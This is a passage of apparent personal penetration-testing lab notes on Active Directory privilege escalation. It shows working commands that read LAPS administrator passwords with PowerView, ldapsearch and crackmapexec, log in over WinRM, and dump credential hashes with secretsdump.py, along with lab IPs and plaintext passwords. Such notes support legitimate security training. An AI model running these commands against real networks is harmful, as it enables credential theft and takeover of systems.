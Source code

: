 ```
Get-DomainObject windows1 -Credential $Cred -Properties "ms-mcs-AdmPwd",name
```

### Dumping LAPS

If you don’t have a session, you can use Ldapsearch to dump the LAPS password as shown in this blogpost.

[Dump LAPS passwords with ldapsearch](https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/)

```bash
ldapsearch -x -h 192.168.80.10 -D \
"usernamehere" -w ASDqwe123 -b "dc=sittingduck,dc=info" \
"(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

You can also get this through crackmapexec.

```bash
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
```

This one worked for me

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%2010.png)

You can now winrm in as the local Administrator

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%2011.png)

Can optionally dump all the hashes with secretsdump.py to fully pwn the system.

```bash
secretsdump.py hutch.offsec/administrator:'9%GR6qN[.#)x4i'@192.168.23.122
```

# ForceChangePassword

https://wald0.com/?p=112

Reference wald0 to show how you can use this